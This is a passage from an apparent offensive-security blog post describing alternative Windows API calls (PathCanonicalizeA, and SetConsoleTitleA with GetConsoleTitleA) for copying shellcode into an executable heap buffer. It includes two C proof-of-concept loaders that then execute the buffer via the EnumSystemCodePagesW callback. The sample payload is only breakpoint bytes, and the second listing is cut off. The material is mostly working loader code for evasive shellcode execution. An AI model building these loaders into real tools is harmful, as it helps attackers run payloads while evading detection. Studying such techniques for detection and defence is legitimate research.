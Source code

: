 The parameters meets our criteria:

```
pszBuf - A pointer to a string that receives the canonicalized path. You must set the size of this buffer to MAX_PATH to ensure that it is large enough to hold the returned string.

pszPath -  pointer to a null-terminated string of maximum length MAX_PATH that contains the path to be canonicalized.
```

The PoC:

```c
#include <Windows.h>
#include <Shlwapi.h>

#pragma comment(lib, "Shlwapi.lib")

int main(int argc, char** argv) {
	LPCSTR orig_shellcode = "\xcc\xcc\xcc\xcc";
	LPSTR copied_shellcode = NULL;
	HANDLE heap = NULL;
	BOOL ret = 0;
	int size = 0;

	heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
	copied_shellcode = HeapAlloc(heap, 0, 0x10);
	PathCanonicalizeA(copied_shellcode, orig_shellcode);
	EnumSystemCodePagesW(copied_shellcode, 0);
	return 0;
}
```

Aaand fire in the hole!

<figure>
<img src="/alternatives-copy-shellcode/canon.png" alt="Shellcode copied to RWX buffer using PathCanonicalizeA">
<figcaption>
Shellcode copied to RWX buffer using PathCanonicalizeA.
</figcaption>
</figure>

# Two-shots functions

With this label we are referring to functions that first need to save the shellcode in a intermediate place, like an environment variable/window title/etc, and then retrieve it from that place. The easiest to spot are the **Set**/**Get** twins. 

A simple example that comes to our mind is saving the shellcode as a Console Tittle with `SetConsoleTitleA` and then calling `GetConsoleTitleA` to save it in our RWX region:

```c
#include <Windows.h>

int main(int argc, char** argv) {
	LPCSTR orig_shellcode = "\xcc\xcc\xcc\xcc";
	LPSTR copied_shellcode = NULL;
	HANDLE heap = NULL;
	BOOL ret = 0;

	heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
	copied_shellcode = HeapAlloc(heap, 0, 0x10);
	SetConsoleTitleA(orig_shellcode);
	GetConsoleTitleA(copied_shellcode, MAX_PATH);
	EnumSystemCodePagesW(copied_shellcode, 0);
	return 0;
```